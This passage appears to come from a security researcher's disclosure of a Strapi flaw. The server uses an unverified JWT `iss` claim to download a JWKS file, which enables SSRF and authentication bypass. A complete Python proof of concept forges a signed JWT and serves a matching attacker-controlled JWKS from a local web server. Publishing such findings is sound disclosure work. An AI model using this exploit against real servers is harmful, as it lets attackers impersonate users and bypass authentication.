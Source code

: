 The developer tried to fix the vulnerability by using the **`iss`** claim within the JWT to get the URL location to download the public key. However, the `iss` claim was **never verified** before being used to download the JWKS file. Therefore, an attacker can modify this claim so the server sends a request to an attacker-controlled server instead. This type of vulnerability is known as a Server-Side Request Forgery (SSRF), and in this use case can be exploited trick the Strapi server verify a forged JWT token using a JWKS from the attacker's website.

I immediately pointed out the security vulnerability that I noticed by reviewing the source code and followed with the below POC and GIF. The POC will first generate a RSA keyset that is then used to sign a forged JWT and start a web server that will respond with the corresponding JWKS file for the forged JWT.

```python
from jwcrypto import jwk, jwt
import json
from http.server import SimpleHTTPRequestHandler
import socketserver

key = jwk.JWK.generate(kty='RSA', size=2048, alg='RS256', use='sig', kid='1234authbypass')
public_key = key.export_public(as_dict=True)
private_key = key.export_private()

jwks_key = json.dumps({"keys":[public_key]}).encode()

payload = {
    "cognito:username": "auth-bypass-example",
    "email": "ghostccamm@testvm.local",
    "iss": "http://192.168.122.254/exploit"
}

token = jwt.JWT(
    header={"alg": "RS256", "kid": "1234authbypass"},
    claims=payload
)

token.make_signed_token(key)
print(f"Auth Bypass Token: {token.serialize()}")

class JWKSHandler(SimpleHTTPRequestHandler):

    def do_GET(self) -> None:
        self.protocol_version = 'HTTP/1.1'
        self.send_response(200, 'OK')
        self.send_header('Content-Type', 'application/json')
        self.end_headers()
        self.wfile.write(jwks_key)


with socketserver.TCPServer(("", 80), JWKSHandler) as httpd:
    print("Running Web Server to Server JWKS")
    httpd.serve_forever()
```
